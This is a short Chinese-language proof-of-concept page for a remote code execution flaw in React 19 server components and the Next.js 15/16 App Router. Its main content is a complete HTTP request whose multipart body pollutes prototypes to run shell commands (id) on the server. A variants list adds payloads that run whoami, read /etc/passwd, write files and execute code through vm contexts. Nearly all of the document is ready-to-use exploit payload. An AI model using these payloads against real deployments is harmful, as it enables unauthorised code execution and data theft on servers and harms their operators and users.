

# React 19 Next.js 15/16 远程代码执行

## 受影响版本：

- react-server-dom-webpack: 19.0.0, 19.1.0, 19.1.1, 19.2.0
- Next.js: 15.x, 16.x (App Router)

## POC：
```t
POST /apps HTTP/2
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Assetnote/1.0.0
Next-Action: x
X-Nextjs-Request-Id: 7a3f9c1e
X-Nextjs-Html-Request-Id: 9bK2mPqRtVwXyZ3$@!sT7u
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Accept: */*
Accept-Language: en-US,en;q=0.9
Content-Length: 689

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B1337\"}","_response":{"_prefix":"var res=process.mainModule.require('child_process').execSync('id').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```


## 变种
```t
{ id: 'child_process#execSync', bound: ['whoami'] }
{ id: 'fs#readFileSync', bound: ['/etc/passwd'] }
{ id: 'fs#writeFileSync', bound: ['/tmp/pwned.txt', 'CVE-2025-55182'] }
{ 
  id: 'vm#runInThisContext',
  bound: ['process.mainModule.require("child_process").execSync("id").toString()']
}
{
  id: 'vm#runInNewContext', 
  bound: ['this.constructor.constructor("return process")().mainModule.require("child_process").execSync("whoami").toString()']
}
```

## 参考链接：https://gist.github.com/maple3142/48bc9393f45e068cf8c90ab865c0f5f3
